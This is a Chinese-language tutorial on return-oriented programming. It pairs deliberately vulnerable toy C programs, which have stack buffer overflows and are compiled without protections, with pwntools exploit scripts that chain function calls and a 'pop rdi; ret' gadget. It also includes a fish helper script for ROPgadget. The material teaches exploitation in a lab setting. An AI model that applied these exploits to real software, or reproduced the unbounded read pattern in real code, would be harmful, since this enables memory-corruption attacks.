

前面我们已经知道了可以通过覆盖返回地址控制程序流，但是只能实现使程序执行到某一个地址继续执行，还不能实现复杂的逻辑。接下来，就一起来看看如何基于覆盖返回地址实现复杂逻辑。

## 面向返回编程（ROP）

### ROP原理

ROP的主要目的便是通过在合适的位置布置一连串的返回地址，从而实现相对复杂的逻辑。

#### 示例

以下面这个程序为例，目标是先后执行`func1`-`func3`

```c
// gcc test.c -no-pie -fno-stack-protector -g
#include <stdio.h>

void func1() { printf("func1 called\n"); }

void func2() { printf("func2 called\n"); }

void func3() { printf("func3 called\n"); }

int main() {
    char str[0x20];

    read(0, str, 0x50);

    return 0;
}
```

对应的exp脚本如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

func1_address = elf.sym["func1"]
func2_address = elf.sym["func2"]
func3_address = elf.sym["func3"]

payload = b"A" * 0x28
payload += p64(func1_address)
payload += p64(func2_address)
payload += p64(func3_address)

p.send(payload)

p.interactive()
```

单看这个脚本可能会有点抽象，下面是栈帧变化的动画演示：



### gadget

现在我们已经能够实现通过在合适的位置布置地址实现按照一定的顺序调用函数。但是这还不够精细，毕竟我们现在还很难控制调用这些函数时传递的参数（可以先了解一下Linux下C语言的调用约定）。这里就需要引入一个新的概念——gadget。

gadget在这里指的是以`ret`指令结尾的代码片段，例如`leave; ret`就是一个很常用的gadget。我们可以利用各种合适的gadget拼凑出需要的程序逻辑。

####  获取gadget

获取gadget可以使用工具`ROPgadget`获取到elf文件中的大部分gadget。如下图


结果可以结合`grep`工具进行搜索，不过我更推荐结合fzf使用，但是这个需要写shell脚本，下面这个是我自己用的shell脚本，能够快速搜索，并把搜索结果存入剪贴板（使用的shell为fish，显示服务器为wayland）

```fish
function find_gadget -d "find gadget from binary file"
    set -l file $argv[1]
    set -l file_md5 (md5sum $file | cut -d ' ' -f 1)

    if ! test -f ./gadget-$file-$file_md5
        ROPgadget --binary $file > ./gadget-$file-$file_md5
    end
    
    set -l result (cat ./gadget-$file-$file_md5 | fzf)

    if test -z $result
        echo "No gadget selected."
        return
    end

    set -l addr (string sub --length 18 $result)

    wl-copy $addr

    echo "The offset of gadget '$result' has been saved to the clipboard."
end
```

#### 示例

已下面这个程序为例，目的是让程序输出`Hello, World!`：

```c
#include <stdio.h>

char *str = "Hello, World!";

void func1() { puts("func1 called"); }

int main() {
    char str[0x20];

    read(0, str, 0x50);

    return 0;
}
```

对应的exp脚本如下：

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

puts_addr = elf.sym["puts"]
str_hello_world = 0x00402004
pop_rdi_ret = 0x0000000000401203

payload = b"A" * 0x28
payload += p64(pop_rdi_ret)
payload += p64(str_hello_world)
payload += p64(puts_addr)

p.send(payload)

p.interactive()
```

栈帧变化的动画演示：


